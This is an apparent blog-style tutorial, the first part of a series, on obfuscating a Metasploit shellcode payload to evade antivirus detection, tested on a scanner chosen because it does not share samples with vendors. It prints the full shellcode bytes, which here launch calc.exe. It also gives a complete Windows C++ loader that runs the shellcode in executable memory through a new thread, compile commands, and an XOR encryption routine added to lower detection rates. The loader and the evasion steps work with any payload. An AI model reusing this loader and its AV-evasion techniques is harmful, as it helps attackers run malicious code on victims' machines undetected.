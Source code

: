 # A Study in Obfuscation

In this blog series, we explore how to obfuscate a Metasploit payload to avoid detection by Antivirus Engines and shall try to go invisible.

We would employ known techniques and see how they affect detection rates uploading the compiled executable to [AntiScan](https://antiscan.me/) as it does not submit the samples to the vendors.

## Environment Setup
To begin with, we would be needing some tools and setup to get started. The first thing is the unobfuscated shellcode we'll be using: 

```bash
RAW_PAYLOAD = [
    0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
    0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
    0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 
    0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 
    0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 
    0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 
    0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 
    0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 
    0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 
    0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 
    0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1, 
    0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44, 
    0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 
    0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 
    0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 
    0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 
    0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 
    0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 
    0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 
    0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 
    0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 
    0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 
    0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
]
```

This will be our base from where we start. The raw, untampered shellcode is placed in `scripts/obfuscator.py`. The python file describes a class `Obfuscator` which takes our shell code and obfuscates it to various levels which is used as the payload in `implant.cpp`

Next up, we need to set up our development environment. For this, we need to install [Visual Studio's C/C++ Development Tools](https://visualstudio.microsoft.com/vs/features/cplusplus/).

Once that is done, we can bring up any IDE of our choice and jump straight to coding. However, if you are using Visual Studio Code, I highly recommend having `x64 Native Tools Command Prompt` as your default. One way of doing is to add the full path to `VsDevCmd.bat` to  VS Code's `settings.json` file as such:

```json
{

    "workbench.colorTheme": "Default Dark+",
    "terminal.integrated.shell.windows": "cmd.exe",
    "terminal.integrated.shellArgs.windows": [
        "/k", "C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Auxiliary\Build\vcvarsall.bat", "x64"
    ],
    "terminal.integrated.automationShell.windows": null,
    "explorer.confirmDelete": false,
}
```

## Level 0 - The Raw Shell Code

To begin with, we write a program to execute our shell code with the help of a program as such:

```cpp
/// Compile With:
/// cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:executables\level0.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>


// Payload String - Level0
unsigned char payload[] = {
    0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
    0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
    0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
    0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
    0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
    0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
    0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
    0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
    0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
    0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
    0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
    0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
    0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
    0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
    0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
    0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
    0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
    0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
    0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
    0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
    0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
    0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
    0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

// Length of payload array
unsigned int payload_len = (unsigned int)(sizeof(payload)/sizeof(payload[0]));

  
/// Main Function
///
/// Returns
///  0 - OK
/// -1 - VirtualAlloc() failed
/// -2 - VirtualProtect() failed
/// -3 - CreateThread() failed
/// -4 - WaitForSingleObject() failed
int main(void){
    BOOL rv;
    HANDLE th;
    DWORD _event = 0;
    void * exec_mem;
    DWORD oldprotect = 0;

    // Allocate a memory buffer for payload
    exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (exec_mem == NULL){
        // fprintf(stderr, "VirtualAlloc Failed with error code: %d\n", GetLastError());
        return -1;
    }

    // Copy payload to new buffer
    RtlMoveMemory(exec_mem, payload, payload_len);

    // Make new buffer as executable
    rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    if ( rv == 0 ) {
        // fprintf(stderr, "VirtualProtect Failed with error code: %d\n", GetLastError());
        return -2;
    }

    // Create Thread To run shellcode
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
    if (th == NULL){
        // fprintf(stderr, "CreateThread Failed with error code: %d\n", GetLastError());
        return -3;
    }

    _event = WaitForSingleObject(th, -1);
    if(_event == WAIT_FAILED){
        // fprintf(stderr, "WaitForSingleObject Failed with error code: %d\n", GetLastError());
        return -4;
    }
  
    return 0;
}
```

The program basically takes the payload generated by Metasploit, creates a memory region with **Read** and **Write** permissions to hold the same, followed by changing the permissions of the region to **Read** and **Execute** before finally creating a thread to execute it. 

The above program can be compiled with:
```bash
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:level0.exe /SUBSYSTEM:CONSOLE /MACHINE:x6
```

This should create a `level0.exe` executable file in the current directory which, when run, pops up the `calc.exe` program. 

### Antiscan Analysis
We see that most AV engines flag the binary and rightfully so because it barely contains any obfuscation and Metasploit payloads have well-defined signatures at this point.

[**Antiscan Score: x/26**]()

![Level0 Analysis]()

## Level 1 - XOR it!

The next thing we do is try to try be a little sneaky and encrypt the payload using the simplest encryption technique out there: XOR'ing it. 

With our payload from Level0, any dumb stupid AV engine can just run a simple signature check or even use something like the `strings` command to know that the executable hence produced is major sus. [It would be kinda worrying if it didn't flag this simple thing]

Now coming back to XOR, we would first need a key to encrypt stuff with. For this, I chose a string which was already present in the Level0 executable so as to not arouse any suspicion.

We can then obtain the encrypted string from our `obfuscator.py` script using `Obsfucator.level1()`. As for the executable code, just for the sake of readibilty we add a header file `headers/obfuscators.h`  which contains the `XOR` function:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// XOR two strings
void XOR(unsigned char * payload, unsigned int payload_len, const char * xor_key, unsigned int xor_key_len){
    int j;

    j = 0;
    for (int i = 0; i < payload_len; i++) {
        if (j == xor_key_len) j = 0;

        payload[i] = payload[i] ^ xor_key[j];
        j++;
    }
}

```

And then, we call the `XOR()` function right before copying the payload to the target memory address. 

```c
...
...
XOR(payload, payload_len, XOR_KEY, xor_key_len);

// Copy payload to new buffer
RtlMoveMemory(exec_mem, payload, payload_len);
...
...
```

Finally, we compile it with:

```
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /I "headers" /link /OUT:executables\level0.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 
```

### Antiscan Analysis

The encryprion does bring down the detection rates a bittle but still, there are ways to go :)

[**Antiscan Score: x/26**]()

![Level1 Analysis]()